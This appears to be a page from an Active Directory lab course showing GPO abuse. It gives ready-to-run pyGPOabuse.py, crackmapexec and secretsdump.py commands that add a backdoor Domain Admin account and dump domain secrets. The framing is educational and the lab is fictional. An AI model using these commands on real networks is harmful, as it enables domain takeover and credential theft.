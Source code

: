 #GPO Abuse
While performing the ACL abuse attack (please do), you might have noticed that the Hank user account has 'GenericAll' access rights over a GPO, through the use of the BloodHound tool. Group Policy Objects (GPOs) are used to enforce specific settings across Organizational Units in AD. These range from critical configurations,  such as such as logon scripts, startup commands, software deployment, registry edits, and even scheduled tasks, all of which are executed with SYSTEM privileges on the targeted machines.

GPOs can also be used for more 'futile' reasons, such as setting wall papers across every computer. It seems that this is the case in our environment, as we can see through the BloodHound GUI by using the Cypher query specified in the ACL section.

Since we've compromised Hank's account in the ACL attack, let's use it to abuse the GPO. As aforementioned, GPOs can create scheduled tasks that run under the SYSTEM security context. As the attacker, we can create a scheduled task leveraging the 'GenericAll' access right that Hank holds on the GPO, and for example, create a new user and add it to the Domain Admins group!

We'll use the pyGPOabuse.py script, which automates this process. We'll use Hank's TGT, which you can retrieve by executing the Shadow Credentials attack, as specified in the ACLs section. You'll also need to retrieve the GPO's ID, which can be done through the BloodHound GUI. Click the GPO's node and look at the GPO's Distinguished Name on the right. That's where you'll get its ID.
```
#replace the GPO ID with the one present in your BloodHound GUI, place the hank.schrader.ccache file in the pyGPOAbuse dir, set the KRB5CCNAME var to the .ccache file, and from there run:
python3 pygpoabuse.py -k -ccache hank.schrader.ccache north.altair.local/hank.schrader -gpo-id B2DBE2C2-9880-444B-A950-97072C096554 -dc-ip captain.north.altair.local
```

You can execute the command "gpupdate /force" as the Administrator on CAPTAIN or wait for a while in order for the GPO to run the scheduled task. After the task is executed, a user account named “john” and with password “H4x00r123..” will exist in the domain and be part of the Domain Admins group. We can confirm if the account is active with crackmapexec, as well as dump domain secrets with this new account.

```
#confirm that the account exists
crackmapexec smb 192.168.122.10 -u john -d north.altair.local -p H4x00r123..
#dump domain secrets
secretsdump.py john:H4x00r123..@captain.north.altair.local
```

!!! question
    What is a Group Policy Object and what is its purpose in an Active Directory environment?
??? "success" Answer
    A Group Policy Object (GPO) is a collection of policy settings that can be applied in AD. They're used to enforce specific configurations across users and computers within a domain. Its purpose is to centralize the management of settings. GPOs can apply to Organizational Units (OUs), domains, or sites, allowing administrators to control environments automatically.
!!! question
    What types of critical configurations can be applied through GPOs?
??? "success" Answer
    GPOs can enforce a wide range of critical configurations, including logon and logoff scripts, startup and shutdown commands, software deployment, registry modifications, and security policies (such as password requirements and account lockouts).
!!! question
    How can you identify that a user has permissions over a GPO in BloodHound?
??? "success" Answer
    In BloodHound, you can identify GPO permissions by running specific Cypher queries in the GUI. When analyzing a user node like Hank, you can check if they have access rights such as GenericAll, WriteDacl, or WriteOwner over a GPO object. This appears in the relationship graph, as the link between the GPO and Hank's node.